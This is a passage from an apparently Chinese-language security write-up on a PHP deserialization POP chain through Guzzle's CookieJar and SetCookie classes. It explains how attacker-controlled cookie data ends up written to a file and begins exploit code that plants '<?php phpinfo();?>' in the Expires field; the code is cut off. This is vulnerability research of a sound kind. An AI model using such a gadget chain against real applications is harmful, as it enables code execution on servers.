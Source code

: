 接着跟进`src/Cookie/CookieJar.php`中的`shouldPersist`方法, 看看写入的内容该如何构造. 

<div align=center><img src="./images/10.png"></div>

寻找相应可用的`getExpires`方法和`getDiscard`方法, 跟进`src/Cookie/SetCookie.php`, `$data`可控, 写入文件内容可控.

<div align=center><img src="./images/11.png"></div>

## POP Chain

```php
<?php

namespace GuzzleHttp\Cookie{
    
    class SetCookie {
        private static $defaults = [
            'Name'     => null,
            'Value'    => null,
            'Domain'   => null,
            'Path'     => '/',
            'Max-Age'  => null,
            'Expires'  => null,
            'Secure'   => false,
            'Discard'  => false,
            'HttpOnly' => false
        ];
        function __construct()
        {
            $this->data['Expires'] = '<?php phpinfo();?>';
            $this->data['Discard'] = 0;
        }
```